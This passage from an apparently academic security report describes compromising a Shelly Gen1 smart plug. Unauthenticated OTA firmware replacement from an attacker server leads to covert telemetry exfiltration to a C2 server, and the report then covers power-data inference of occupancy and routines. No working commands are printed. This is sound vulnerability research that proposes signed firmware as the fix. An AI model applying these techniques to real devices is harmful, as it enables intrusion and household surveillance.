    
\includegraphics[width=\linewidth]{Images/Fase2/MITM4.jpg}
    \caption{Variant B: the \texttt{curl} command directly instructs the device to download firmware from the attacker's server. The bottom pane shows the rogue HTTP server ready to serve the malicious bundle}
    \label{fig:mitm_trigger}
\end{figure}

\noindent Figure~\ref{fig:mitm_response} shows the device's JSON response, confirming the update status \\ (\texttt{"status":"updating"}), and the HTTP server logging the successful firmware download \\ (\texttt{"GET /gen1/SHPLG-S.zip HTTP/1.1" 200}).

\begin{figure}[H]
    \centering
    
\includegraphics[width=\linewidth]{Images/Fase2/MITM5.jpg}
    \caption{Variant B result: the device confirms the update (\texttt{"status":"updating"}) and the HTTP server logs the firmware download (HTTP 200)}
    \label{fig:mitm_response}
\end{figure}

\noindent \textbf{This variant highlights a critical design flaw in the Shelly Gen1 firmware} because the OTA endpoint accepts firmware from any URL without authentication. Any actor with network access to the device can silently replace the entire firmware with a single HTTP request.


\subsection{Post-Injection Results}
Both attack variants produce the same outcome: the device downloads, applies, and reboots into the malicious firmware. After the automatic reboot, Figure~\ref{fig:mitm_post} shows the post-injection state: the device now presents the malicious firmware's web interface, confirming that the firmware replacement was successful. From the user's perspective, the device continues to function normally, but it is now silently exfiltrating all telemetry data to our C2 server.

\begin{figure}[H]
    \centering
    
\includegraphics[width=0.80\linewidth]{Images/Fase2/MITM3.jpg}
    \caption{Post-injection: the device now serves the malicious firmware's web interface, confirming successful firmware replacement}
    \label{fig:mitm_post}
\end{figure}

\noindent Instead, Figure~\ref{fig:mqtt_redfw} shows the MQTT telemetry captured via \texttt{mosquitto\_sub}, confirming the successful publication of standard power, energy, and temperature readings from the compromised device, demonstrating that the behavioral camouflage is fully functional.


\begin{figure}[H]
    \centering
    
\includegraphics[width=0.80\linewidth]{Images/Fase2/MQTTRedfw.png}
    \caption{MQTT telemetry captured via \texttt{mosquitto\_sub}, showing live power, energy, and temperature readings from the compromised device}
    \label{fig:mqtt_redfw}
\end{figure}

\noindent Both variants converge on the same fundamental weakness: the \textbf{absence of cryptographic firmware verification}. This vulnerability is addressed comprehensively in Phase 3 through the implementation of RSA-based firmware signature verification and mutual TLS authentication.


\section{Pattern Recognition \& User Behavior Analytics}
Beyond the immediate security implications of unauthorized data exfiltration, the continuously collected power consumption data enables a more insidious form of surveillance: \textbf{semantic side-channel analysis}. By analyzing temporal patterns and power level variations, it becomes possible to infer detailed information about user habits, daily routines, and the types of appliances connected to the smart plug.

\medskip
\noindent The telemetry data collected by the compromised device provides a high-resolution time series of power consumption, sampled every 60 seconds. This granularity is sufficient to perform the following types of behavioral inference:

\begin{itemize}
    \item \textbf{Presence/Absence detection}: A prolonged period of zero power consumption (relay on, but no load) or consistently low standby power can indicate that the user is away from home. Conversely, periodic load activation patterns reveal the user's daily schedule and presence habits.
    
    \item \textbf{Appliance fingerprinting}: Different electrical appliances exhibit characteristic power signatures. A resistive heating element (e.g., a kettle or space heater) produces a stable, high-wattage plateau, while a refrigerator compressor shows periodic on/off cycling with a distinctive inrush current spike. By matching observed power profiles against known appliance signatures, the attacker can determine \emph{which} type of device is connected.
    
    \item \textbf{Activity pattern inference}: Regular power consumption patterns at specific times of day (e.g., a coffee machine activated every morning at 7:00 AM, a desk lamp turned on at 9:00 PM) reveal the user's behavioral routines with a high degree of temporal precision.
    
    \item \textbf{Occupancy analytics}: The correlation between power events across multiple compromised devices in the same household can produce a comprehensive occupancy map, revealing not only \emph{when} the user is home, but also \emph{which rooms} are occupied and for how long.
\end{itemize}

\noindent This type of analysis transforms what appears to be innocuous energy metering data into a powerful surveillance tool, highlighting the severe privacy implications of IoT device compromise, even when the attacker does not gain direct access to cameras, microphones, or personal data.
